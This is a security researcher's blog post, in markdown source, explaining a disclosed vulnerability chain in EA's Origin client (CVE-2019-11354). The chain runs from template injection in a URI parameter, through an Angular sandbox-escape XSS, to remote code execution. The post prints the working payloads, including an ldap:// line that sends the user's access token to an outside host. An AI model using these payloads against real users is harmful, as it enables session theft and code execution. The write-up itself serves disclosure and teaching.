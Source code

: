 ```yaml
---
title: A Questionable Journey From XSS to RCE
description: A vulnerability chain in EA's Origin Client that escalated from content injection to remote code execution through template injection and XSS.
pubDate: 2019-05-13T12:00:00.000Z
updatedDate: 2019-05-13T12:00:00.000Z
hero: ~/assets/heros/clara.png
heroAlt: Origin Client Vulnerability
authors: [
  {
    name: "Dominik Penner",
    handle: "zer0pwn"
  }
]
---
```


# Introduction

As many of you reading this probably already know, in mid April, a good friend of mine (@Daley) and I located a Remote Code Execution vulnerability in EA's Origin client (CVE-2019-11354). Today I'm going to go in depth on how we discovered this vulnerability, along with a couple others we needed to chain along the way ;pp

![Origin RCE](~/assets/calc.gif)

# Debugging Origin

A lot of what was discovered was enabled by QtWebEngine debugging. By passing a specific flag to the origin process, we can hook Chrome devtools to the process and inspect the web view.

In order to set up remote debugging, you have to enable port-forwarding in the chrome devtools. To do this you need to start chrome and open the devtools. From there, open the Remote Devices view, enable port forwarding, and fill in the settings as needed.

Now we can start the origin process.

```
Origin.exe --remote-debugging-port=31337
```

If you navigate to localhost:31337 in chrome, you'll be met with the devtools, and from there, you can do all the poking around you need.

# Origin URI Handler

URI exploitation isn't new by any means. For a long time it has provided reliable ways of delivering payloads and executing commands on remote computers. The idea of being able to execute remote commands by simply having your target visit a web-page is obviously more than ideal to any threat actor.

In this scenario, the whole idea behind registering a custom URI handler is for ease-of-access. For example, Origin's handler is mainly there to be able to launch or purchase games from your web-browser. As soon as you click one of those links, your Origin client will launch with the parameters supplied by the crafted URI.

The Origin URI provides us with a few options we can use. To launch a game, we can use the following URI. This option gives us a few parameters. That's where we'll find our first bug.

```
origin://game/launch/?offerIds=OFFERID
```

# The First Bug (Template Injection)

The first bug relies on the fact that when Origin recieves an invalid game ID, it gives you the option to manually add it to your game library. In the dialog that pops up, it also echoes out the title of the game you'd like to add. If the game isn't recognized by Origin, how is it supposed to fetch a title, you may be asking. That's where the "title" parameter comes in handy.

We can quite literally specify any title we want by simply using the following link:

```
origin://game/launch/?offerIds=0&title=zer0pwn
```

This initially prompted me to try injecting HTML to see if maybe there was a possibility for XSS. You can tell that the HTML is being interpreted when you use the following link:

```
origin://game/launch/?offerIds=0&title=<h1>zer0pwn
```

I figured it would be as simple as injecting script tags to execute javascript, however this was not the case. After a little bit of digging, I discovered that the front-end is primarily developed in Angular. Angular does a lot of stuff with templating, so I figured maybe there was a possibility of template injection. Sure enough, a simple payload of 7*7 got evaluated.

```
origin://game/launch/?offerIds=0&title={{7*7}}
```

# The Second Bug (XSS)

Obviously with a client-side template injection vulnerability, we're limited to executing actions on the client. However, we can leverage this to evaluate our own Javascript and potentially compromise user sessions.

Angular is notorious for sandboxing, which means that we're going to have to do some funky scripting in order to execute what we want. Thankfully some researchers have already compiled a gist of Angular sandbox-escapes, which is what we used.

By using the following payload in the title param, we were able to pop an alert box (l33th4x!!!!11)

```
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}
```

# The Third Bug  (RCE)

Now, this part of the exploit is relatively trivial. QDesktopServices itself isn't necessarily vulnerable here, however the way that Origin has implemented it, on top of the other vulnerabilties, it ended up with a pretty nasty result.

According to the Qt documentation, "The QDesktopServices class provides methods for accessing common desktop services. Many desktop environments provide services that can be used by applications to perform common tasks, such as opening a web page, in a way that is both consistent and takes into account the user's application preferences."

Now here's the crazy part... There is actually an SDK (by Origin) in which you can communicate with the client's QDesktopServices via a javascript library. This only works if it's launched within the Origin client (obviously).

By accessing Origin.client.desktopServices in the DOM, we can find the following functions:

```javascript
: function asyncOpenUrl()​
: function asyncOpenUrlWithEADPSSO()​
: function deminiaturize()​
: function flashIcon()​
: function formatBytes()​
: function getVolumeDiskSpace()​
: function isMiniaturized()​
: function miniaturize()​
: function moveWindowToForeground()​
: function setNextWindowUUID()​
: function showWindow()​
```

Some of these functions are pretty cool. If you call ```flashIcon()```, you'll see the Origin icon flashing (big surprise, right). Most of the functions are pretty self explanatory actually, so I won't bother going into them.

What we had luck with was ```asyncOpenUrl()```. This function basically calls QDesktopServices ```openUrl()``` function, which in turn opens a web browser, or whatever application is registered with the provided URI. According to the documentation, you can also load local resources. Sounds promising, right ;)?

We can literally open a calculator with the following javascript:

```javascript
Origin.client.desktopServices.asyncOpenUrl("calc.exe")
```

# What else can we do?

As I mentioned earlier, Origin has a CSP in place which makes exfiltration somewhat difficult. If we use the ```ldap://``` URI handler in conjunction with ```asyncOpenUrl()```, we can send an LDAP request along with the data we want to exfiltrate. 

```
"ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"
```

From the server, start tcpdump and set the necessary filters and you should see the data being transmitted in plaintext.

The ```Origin.user``` object contains a bunch of other information as well.

```javascript
: function accessToken()​
: function country()​
: function dob()​
: function email()​
: function emailStatus()​
: function globalEmailSignup()​
: function isAccessTokenExpired()​
: function originId()​
: function personaId()​
: function registrationDate()​
: function sessionGUID()​
: function showPersona()​
: function tfaSignup()​
: function underAge()​
: function userGUID()​
: function userPid()​
: userStatus()
```

# Wasn't this patched?

Electronic Art's rolled out a patch, however there are bypasses available as some on Twitter have decided to share. This highlights the issue once again and should be addressed by sanitizing all types of input, as the initial patch failed to do so.

# References
* [https://gist.github.com/jeremybuis/38c01acae19fc2ac6959](https://gist.github.com/jeremybuis/38c01acae19fc2ac6959)
* [https://blog.underdogsecurity.com/rce_in_origin_client/](https://blog.underdogsecurity.com/rce_in_origin_client/)
* [https://doc.qt.io/qt-5/qdesktopservices.html](https://doc.qt.io/qt-5/qdesktopservices.html)
